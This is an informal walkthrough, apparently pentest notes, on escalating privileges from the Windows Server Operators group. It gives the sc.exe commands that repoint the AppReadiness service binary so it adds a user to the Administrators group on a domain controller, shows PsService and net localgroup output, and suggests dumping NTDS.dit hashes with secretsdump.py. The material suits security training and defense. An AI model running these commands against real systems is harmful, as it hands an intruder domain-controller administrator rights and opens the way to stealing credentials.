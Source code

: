 Server Operators is a very high privileged group. Its members can log in servers, *including the Domain Controller* and can control local services.<br>
Additionally, members of that group are granted SeBackupPrivilege and SeRestorePrivilege.

An easy way to escalate our privileges from that group would be to replace a running service with our own malicious payload. 

As an example, let's exploit the AppReadiness service : 

## Checking the service permissions

We will use [PsService](https://learn.microsoft.com/en-us/sysinternals/downloads/psservice) from SysInternals to query informations about the service (get more info than with `sc.exe qc <SERVICE_NAME>`)

```
.\PsService.exe security AppReadiness
PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate

<SNIP>blablablabla.... <SNIP>
        
        [ALLOW] BUILTIN\Server Operators
                All
```
As you can see, as a member of the Server Operators group you have full permission over the service.

## Modifying the service 

Let's change the binaary path of this service to execute our payload, here a command that will add us to the Administrators group :

```bat
sc.exe config AppReadiness binPath="cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

## Running the service

Then, run the modified service using sc :
```
C:\> sc.exe start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
The service should fail to start, but you can confirm our payload has been ran by checking the administrators group :
```
C:\> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

--------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```
As you can see, we're now member of the local Administrators group on the domain controller, you're now free to do whatever bullshit you want, like dumping NTDS.dit hashes using secretsdump.py or shenanigans like that.
